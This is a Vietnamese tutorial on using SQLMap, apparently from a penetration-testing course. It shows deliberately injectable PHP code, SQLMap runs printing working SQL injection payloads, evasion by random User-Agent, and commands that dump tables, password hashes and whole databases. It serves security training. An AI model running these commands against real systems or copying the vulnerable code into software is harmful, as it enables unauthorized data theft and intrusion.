



# SQLMap Essentials


## Tổng quan SQLMap 

SQLMap là công cụ penetration testing miễn phí, mã nguồn mở, viết bằng Python, giúp tự động phát hiện và khai thác các lỗi SQL injection (SQLi). SQLMap được phát triển liên tục từ năm 2006 và hiện vẫn được duy trì.

### Database được hỗ trợ 

SQLMap hỗ trợ nhiều DBMS hơn bất kỳ công cụ SQL exploitation nào khác. Các DBMS được hỗ trợ đầy đủ gồm: MySQL, Oracle, PostgreSQL, Microsoft SQL Server, SQLite, IBM DB2, Microsoft Access, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, HSQLDB, CockroachDB, TiDB, MemSQL, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB và FrontBase. Nhóm SQLMap cũng định kỳ bổ sung và hỗ trợ DBMS mới.

### Các loại SQL injection được hỗ trợ 

SQLMap có thể phát hiện và khai thác tất cả các loại SQLi đã biết. Xem kỹ thuật SQLi bằng `sqlmap -hh`. Các ký tự trong `BEUSTQ` lần lượt là: `B` Boolean-based blind; `E` Error-based; `U` UNION query-based; `S` Stacked queries; `T` Time-based blind; `Q` Inline queries.

## Bắt đầu với SQLMap 

### Basic Scenario

Trong kịch bản đơn giản, penetration tester truy cập web page nhận input qua GET parameter (ví dụ `id`) và muốn kiểm tra SQL injection. Nếu page có lỗ hổng, họ có thể khai thác để lấy thông tin từ back-end database, thử truy cập file system bên dưới hoặc thực thi OS command. PHP code có SQLi có thể như sau:

```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

Vì bật error reporting cho query có lỗ hổng, database error sẽ xuất hiện trong response của web server nếu query thực thi lỗi. Điều này giúp phát hiện SQLi dễ hơn, nhất là khi sửa thủ công giá trị parameter. URL ví dụ: `http://www.example.com/vuln.php?id=1`.

Chạy SQLMap:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

```bash
redacted@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

Ví dụ xác định `id` có thể injectable bằng Boolean-based blind, Error-based, Time-based blind và UNION query. Back-end là MySQL; web application dùng PHP và Apache. Dữ liệu được ghi vào `~/.sqlmap/output/www.example.com`. Option `-u` cung cấp target URL; `--batch` tự chọn câu trả lời mặc định để bỏ qua prompt cần input.

## Chạy SQLMap trên HTTP request 

### Curl Commands

Một cách dễ cấu hình request là dùng **Copy as cURL** trong Network panel của Developer Tools.



Khi đưa data cho SQLMap, phải có giá trị parameter có thể kiểm tra SQLi hoặc dùng option tự tìm parameter như `--crawl`, `--forms` hay `-g`.

### GET/POST Requests

GET parameter thường được cung cấp bằng `-u`/`--url`. Để kiểm tra POST data dùng `--data`:

```bash
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

SQLMap kiểm tra `uid` và `name`. Nếu chỉ muốn kiểm tra `uid`, dùng `-p uid`; hoặc đánh dấu vị trí cần inject bằng `*`:

```bash
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

### Full HTTP Requests

Để chỉ định request phức tạp có nhiều header và POST body dài, dùng `-r` với request file chứa toàn bộ HTTP request dạng text.

```http
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

```bash
sqlmap -r req.txt
```

Tương tự `--data`, có thể đặt `*` ở parameter cần inject trong request file, ví dụ `/?id=*`.

### Custom SQLMap Requests

Để chỉ định session cookie, dùng `--cookie`:

```bash
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

Cũng có thể dùng `-H`/`--header`

```bash
redacted@htb[/htb]$ sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

cách này áp dụng với `--host`, `--referer` và `-A`/`--user-agent` để thiết lập HTTP header tương ứng. `--random-agent` chọn ngẫu nhiên User-Agent từ database các browser phổ biến. Đây là lựa chọn đáng nhớ vì nhiều giải pháp bảo vệ tự động loại bỏ traffic có User-Agent mặc định của SQLMap. `--mobile` giả lập smartphone bằng header tương ứng.

Mặc định SQLMap chỉ nhắm HTTP parameter, nhưng cũng có thể kiểm tra header bằng marker `*` sau giá trị, ví dụ `--cookie="id=1*"`. Để dùng HTTP method khác GET/POST (ví dụ PUT), dùng `--method`:

```bash
sqlmap -u www.target.com --data='id=1' --method PUT
```

### Custom HTTP Requests

Ngoài POST body form-data (ví dụ `id=1`), SQLMap hỗ trợ JSON (ví dụ `{"id":1}`) và XML (ví dụ `<element><id>1</id></element>`). Các format này được hỗ trợ theo cách “relaxed”, không yêu cầu format cứng cho vị trí parameter. Với body ngắn, `--data` là đủ; với body phức tạp hoặc dài, dùng `-r`.

```http
cat req.txt

HTTP / HTTP/1.0
Host: www.example.com

{
  "data": [{
    "type": "articles",
    "id": "1",
    "attributes": {
      "title": "Example JSON",
      "body": "Just an example",
      "created": "2020-05-22T14:56:29.000Z",
      "updated": "2020-05-22T14:56:28.000Z"
    },
    "relationships": {
      "author": {
        "data": {"id": "42", "type": "user"}
      }
    }
  }]
}
```

```bash
sqlmap -r req.txt
```

## Xử lý lỗi SQLMap 

Khi cấu hình SQLMap hoặc dùng nó với HTTP request có thể gặp nhiều vấn đề. Phần này trình bày các cách tìm nguyên nhân và xử lý.

### Display Errors

Bước đầu thường là bật `--parse-errors` để parse DBMS error (nếu có) và hiển thị trong quá trình chạy. SQLMap sẽ in DBMS error để làm rõ nguyên nhân.

```bash
...SNIP...
[16:09:20] [INFO] testing if GET parameter 'id' is dynamic
[16:09:20] [INFO] GET parameter 'id' appears to be dynamic
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '))"',),)((' at line 1'"
[16:09:20] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''YzDZJELylInm' at line 1'
...SNIP...
```

### Store the Traffic

Option `-t` lưu toàn bộ traffic vào output file:

```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
cat /tmp/traffic.txt
```

File này chứa tất cả HTTP request đã gửi và response nhận được để có thể kiểm tra thủ công vấn đề phát sinh ở đâu.

### Verbose Output

Option `-v` tăng độ chi tiết output trên console. Ví dụ:

```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 16:17:40 /2020-09-24/

[16:17:40] [DEBUG] cleaning up configuration parameters
[16:17:40] [DEBUG] setting the HTTP timeout
[16:17:40] [DEBUG] setting the HTTP User-Agent header
[16:17:40] [DEBUG] creating HTTP requests opener object
[16:17:40] [DEBUG] resolving hostname 'www.example.com'
[16:17:40] [INFO] testing connection to the target URL
[16:17:40] [TRAFFIC OUT] HTTP request [#1]:
GET /?id=1 HTTP/1.1
Host: www.example.com
Cache-control: no-cache
Accept-encoding: gzip,deflate
Accept: */*
User-agent: sqlmap/1.4.9 (http://sqlmap.org)
Connection: close

[16:17:40] [DEBUG] declared web page charset 'utf-8'
[16:17:40] [TRAFFIC IN] HTTP response [#1] (200 OK):
Date: Thu, 24 Sep 2020 14:17:40 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 914
Connection: close
Content-Type: text/html; charset=UTF-8
URI: http://www.example.com:80/?id=1

<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta name="description" content="">
  <meta name="author" content="">
  <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
  <title>SQLMap Essentials - Case1</title>
</head>

<body>
...SNIP...
```

`-v 6` in mọi error và toàn bộ HTTP request ra terminal để theo dõi các hoạt động của SQLMap theo thời gian thực.

### Using Proxy

Dùng `--proxy` để chuyển toàn bộ traffic qua proxy (MiTM), ví dụ Burp. Sau đó có thể kiểm tra thủ công request, phát lại chúng và dùng các tính năng của Burp.



## Tinh chỉnh attack 

Thông thường SQLMap chạy ngay với thông tin target được cung cấp. Có các option tinh chỉnh injection attempt ở giai đoạn phát hiện SQLi. Mỗi payload gồm `vector` (ví dụ `UNION ALL SELECT 1,2,VERSION()`), phần trung tâm chứa SQL code được thực thi tại target và `boundaries` (ví dụ `'<vector>-- -`), prefix/suffix dùng để đặt vector đúng vị trí trong SQL statement có lỗ hổng.

### Prefix/Suffix

Một số trường hợp hiếm cần prefix/suffix đặc biệt. Dùng `--prefix` và `--suffix`:

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Lệnh này đặt mọi vector giữa prefix `%'))` và suffix `-- -`. Ví dụ, với PHP code:

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

Vector `UNION ALL SELECT 1,2,VERSION()` với boundary đó sẽ tạo query hợp lệ:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

### Level/Risk

Mặc định SQLMap kết hợp boundaries phổ biến (cặp prefix/suffix) với vector có khả năng thành công cao. Có thể dùng tập boundaries/vector rộng hơn:

- `--level` (1–5, mặc định 1) mở rộng vector và boundary theo khả năng thành công; khả năng càng thấp thì cần level càng cao.
- `--risk` (1–3, mặc định 1) mở rộng vector theo nguy cơ gây vấn đề ở target, như mất dữ liệu database hoặc denial-of-service.

Cách tốt nhất để kiểm tra sự khác biệt giữa các ranh giới và tải trọng được sử dụng cho các giá trị khác nhau của `--level` và `--risk` là sử dụng tùy chọn `-v` để thiết lập mức độ chi tiết. Ở mức độ chi tiết 3 trở lên (ví dụ: `-v 3`), các thông báo chứa `[PAYLOAD]` được sử dụng sẽ được hiển thị như sau:

```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

Mặt khác, các tải trọng được sử dụng với giá trị `--level` mặc định có phạm vi giới hạn nhỏ hơn đáng kể:

```bash
sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

Với `--level=1 --risk=1`, SQLMap dùng tối đa 72 payload cho một parameter; trường hợp chi tiết nhất (`--level=5 --risk=3`) dùng tới 7.865 payload.

SQLMap đã được tinh chỉnh để kiểm tra các boundary và vector phổ biến, vì vậy không nên đổi các option này nếu không cần vì quá trình detection sẽ chậm hơn đáng kể. Với một số SQLi cần payload `OR` (ví dụ login page), có thể phải tăng risk. Payload `OR` vốn nguy hiểm vì SQL statement có lỗ hổng đôi khi chủ động thay đổi database (`DELETE`, `UPDATE`).

### Advanced Tuning

SQLMap có nhiều switch/option tinh chỉnh sâu, thường không cần dùng nhưng nên biết để áp dụng khi cần.

#### Status Codes

Với response lớn có nhiều nội dung dynamic, khác biệt nhỏ giữa TRUE/FALSE có thể dựa vào HTTP code, ví dụ TRUE là `200`, FALSE là `500`. Dùng `--code` để chỉ định HTTP code của response TRUE, ví dụ `--code=200`.

#### Titles

Nếu response khác nhau ở page title, dùng `--titles` để so sánh nội dung HTML `<title>`.

#### Strings

Nếu chuỗi cụ thể xuất hiện trong response TRUE (ví dụ `success`) nhưng không xuất hiện trong FALSE, dùng `--string` để chỉ dựa trên chuỗi đó, ví dụ `--string=success`.

#### Text-only

Khi có nhiều nội dung ẩn như tag hành vi HTML (`<script>`, `<style>`, `<meta>`...), dùng `--text-only` để xóa HTML tag và chỉ so sánh phần text nhìn thấy.

#### Techniques

Nếu Time-based blind gây timeout hoặc muốn ép dùng một kiểu SQLi cụ thể, `--technique` giới hạn kỹ thuật được dùng. Ví dụ bỏ Time-based blind và Stacked queries, chỉ thử Boolean-based blind, Error-based và UNION-query:

```bash
--technique=BEU
```

#### UNION SQLi Tuning

Nếu tự tìm được số cột chính xác của query có lỗ hổng, cung cấp bằng `--union-cols` (ví dụ `--union-cols=17`). Nếu giá trị “dummy” mặc định (`NULL` và số nguyên ngẫu nhiên) không tương thích với dữ liệu của query, dùng giá trị khác qua `--union-char` (ví dụ `--union-char='a'`).

Nếu cần `FROM <table>` appendix ở cuối UNION query (ví dụ Oracle), dùng `--union-from` (ví dụ `--union-from=users`). SQLMap có thể không tự dùng được appendix nếu chưa phát hiện tên DBMS.

## Database Enumeration

### SQLMap Data Exfiltration

SQLMap có tập query định sẵn cho mỗi DBMS được hỗ trợ; từng entry là SQL cần chạy tại target để lấy dữ liệu mong muốn. Ví dụ, query của MySQL có thể dùng `VERSION()` lấy banner, `CURRENT_USER()` lấy current user và `DATABASE()` lấy current database.

Khi dùng `--banner` với MySQL, SQLMap dùng query `VERSION()`; `--current-user` dùng `CURRENT_USER()`. Để lấy username, có hai query: `inband` dùng cho trường hợp không blind (UNION-query và Error-based SQLi), khi query result có thể xuất hiện trong response; `blind` dùng cho các tình huống blind, khi dữ liệu được lấy lần lượt theo row, column và bit.

### Basic DB Data Enumeration

Sau khi phát hiện SQLi, có thể lấy thông tin cơ bản như hostname (`--hostname`), tên current user (`--current-user`), current database (`--current-db`) hoặc password hash (`--passwords`). Nếu SQLi được nhận diện trước đó, SQLMap bỏ qua detection và bắt đầu DBMS enumeration.

Enumeration thường lấy: 
- database version banner (`--banner`)
- current user (`--current-user`)
- current database (`--current-db`)
- kiểm tra current user có DBA/admin rights (`--is-dba`). 

Ví dụ:

```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```

Ví dụ cho thấy database MySQL 5.1.41 (từ tháng 11/2009), current user `root`, database `testdb`.

**Lưu ý:** Database user `root` trong phần lớn trường hợp không liên quan đến OS user `root`; đây là user có privilege cao trong DBMS context. DB user không nên bị giới hạn trong database, trong khi OS privilege (ví dụ ghi tùy ý vào file system) nên ở mức tối thiểu trong các triển khai hiện đại. Nguyên tắc tương tự áp dụng cho role `DBA`.

### Table Enumeration

Sau khi biết tên database (ví dụ `testdb`), lấy tên table bằng `--tables` và chỉ định database qua `-D`:

```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

Sau khi tìm table cần quan tâm, lấy nội dung bằng `--dump` và `-T`:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```

Console hiển thị dữ liệu dạng CSV và lưu vào file local `users.csv`. Ngoài CSV mặc định, dùng `--dump-format` để xuất sang HTML hoặc SQLite rồi phân tích tiếp trong SQLite environment.



### Table/Row Enumeration

Với table lớn, dùng `-C` để chỉ lấy một số column (ví dụ `name,surname`):

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

Giới hạn row theo thứ tự bằng `--start` và `--stop`; ví dụ lấy entry thứ 2 đến thứ 3:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

### Conditional Enumeration

Để lấy row theo điều kiện WHERE đã biết (ví dụ `name LIKE 'f%'`), dùng `--where`:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

### Full DB Enumeration

Để lấy mọi table trong database, bỏ `-T` (ví dụ `--dump -D testdb`). Dùng `--dump` mà không chỉ định table sẽ lấy toàn bộ nội dung current database. `--dump-all` lấy dữ liệu từ tất cả database.

Nên kết hợp `--exclude-sysdbs` (ví dụ `--dump-all --exclude-sysdbs`) để bỏ qua system database, thường ít giá trị với pentester.

## Advanced Database Enumeration

Sau các kiến thức cơ bản về database enumeration, phần này trình bày kỹ thuật nâng cao để truy xuất sâu hơn dữ liệu cần quan tâm.

### DB Schema Enumeration

Để lấy cấu trúc mọi table và tổng quan database architecture, dùng `--schema`:

```bash
sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

### Searching for Data

Với database có nhiều table/column, dùng `--search` để tìm identifier theo toán tử `LIKE`. Ví dụ tìm table có tên chứa `user`:

```bash
sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
